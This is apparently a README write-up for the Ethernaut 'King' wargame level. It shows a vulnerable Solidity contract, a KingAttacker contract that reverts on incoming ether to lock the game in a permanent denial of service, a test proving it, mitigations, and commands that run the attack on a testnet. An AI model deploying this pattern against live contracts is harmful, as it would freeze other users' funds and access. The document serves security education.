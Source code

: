 # Level 9: King

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)

**Description**:

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

`Text after completing the level`:

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](https://www.kingoftheether.com/postmortem.html).

**Code**

Code to be exploited:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
  address king;
  uint256 public prize;
  address public owner;

  constructor() payable {
      owner = msg.sender;
      king = msg.sender;
      prize = msg.value;
  }

  receive() external payable {
      require(msg.value >= prize || msg.sender == owner);
      payable(king).transfer(msg.value);
      king = msg.sender;
      prize = msg.value;
  }

  function _king() public view returns (address) {
      return king;
  }
}
```

</details>

# Findings

## [H-1] Denial of Service (DoS) attack can block anyone else to send value to contract and be the king, breaking the whole protocol

**Description**: Every time someone sends ether to `King` contract and this value is greater than the `King::prize`, the contract transfers to the last king address and update the king as the address who sent the value. The thing is that this address can actually be a malicious contract that does not allow to receive ethers or just revert when receiving ether. 

Consider the `King::receive` function:

```javascript
    receive() external payable {
      require(msg.value >= prize || msg.sender == owner);
@>    payable(king).transfer(msg.value);
      king = msg.sender;
      prize = msg.value;
    }
```

if in this case, the `king` address is this contract below, the protocol would never work again:

<details>
<summary>See Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {King} from "./King.sol";

contract KingAttacker {
  King king;

  constructor(address _king) {
    king = King(payable(_king));
  }

  function attack() external payable{
    (bool success, ) = address(king).call{value: msg.value}("");
    if(!success) revert();
  }

  // This will block anyone to finish the execution of 'King::receive' function
  // because the 'payable(king).transfer(msg.value);' transference will always revert.
  receive() external payable{
    revert();
  }
}
```

</details>

**Impact**: The protocol would never work again due to a DoS.

**Proof of Code**: In this test below we execute the `KingAttacker::attack` in order to claim to be king, and then try to reclaim the king with contract owner, but as the `KingAttacker` reverts on any value receiving, no one else can ever be king again:

```javascript
function testShouldBlockNextInvestmentst() public{
  vm.prank(attacker);
  kingAttacker.attack{value: 2 wei}();

  vm.expectRevert();
  vm.prank(owner);
  (bool success, ) = address(king).call{value: 3 wei}("");

  assertTrue(success);
}
```

**Recommended mitigation**: A recommended mitigation for this protocol is to not allow a king to be a contract. To do that, we can to use the assembly opcode `EXTCODESIZE`. This opcode will try to get the code size of this address, if the address is a contract the size will be greater than zero, otherwise if is not a contract.

So we could create another function to verify if some address is a function and call it inside `King::receive`:

```diff
  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
+   require(!isContract(msg.sender), "Should not be a contract");
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

+ function isContract(address _addr) private returns (bool is_contract){
+   assembly {
+     is_contract := extcodesize(_addr)
+   }
+ }
```

Remember that the first king is set in the `King::constructor`, so in this case you should consider that on the contract deploy.

But, depending on the context you would also want to allow contracts to iteract with `King` right? So a good solution is to create a balances mapping to register all the promised king prizes to be sent and create a `withdraw` function to allow the addresses to withdraw their prizes once the stop being king. Read more [about this solution](https://solidity-by-example.org/hacks/denial-of-service/).

```diff
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  contract King {
    address king;
    uint256 public prize;
    address public owner;
+   mapping(address => uint256) public balances;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
-       payable(king).transfer(msg.value);
+       balances[king] += msg.value;
        king = msg.sender;
        prize = msg.value;
    }

+   function withdraw() public {
+       require(msg.sender != king, "Current king cannot withdraw");
+
+       uint256 amount = balances[msg.sender];
+       balances[msg.sender] = 0;
+
+       (bool sent,) = msg.sender.call{value: amount}("");
+       require(sent, "Failed to send Ether");
+   }

    function _king() public view returns (address) {
        return king;
    }
  }
```

# Attack

**Description**: To exploit this vulnerability we can follow the steps below:

1. Deploy our `KingAttacker` passing the `King` contract address to it.
2. Paste the `KingAttacker` address as the `ATTACKER_CONTRACT` value in `.env` file.
3. Get the current `King::prize` using `make prize`. This command will execute a call in the `King::prize` public variable (`cast call $$VICTIM_CONTRACT_INSTANCE "prize()(uint256)" --rpc-url sepolia`).
4. Copy the prize value, paste as the `ATTACK_VALUE` value in `.env` file and increase the prize with `1 wei` (e.g. if the prize was `1000000000000000` you are going to use `1000000000000001` to be king)
5. Attack the `King` contract by running `make attack`.
6. Submit the level by running `make submit`.

**Instance used**: [0x9296C00F868AA9478C26b1Af895DCE0d961DE804](https://sepolia.etherscan.io/address/0x9296C00F868AA9478C26b1Af895DCE0d961DE804)

**Attacker Contract**: [0x7aeB4ABe4B095F8f00765F2Eaaf5e51bCdd04d76](https://sepolia.etherscan.io/address/0x7aeB4ABe4B095F8f00765F2Eaaf5e51bCdd04d76)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x8e1289bfc77de7ad1f21cb1f6c1ca92acd57a0f7458f1d9bfb4b34f2ead17e7e)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xa6f239859b97400b3d676a357c720972fb1c9503fa0b345b765f0ac83228df8d)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```
## Get prize value from King contract (testnet)

```bash
make prize
```

## Deploy Attacker Contract (testnet)

```bash
make deploy
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```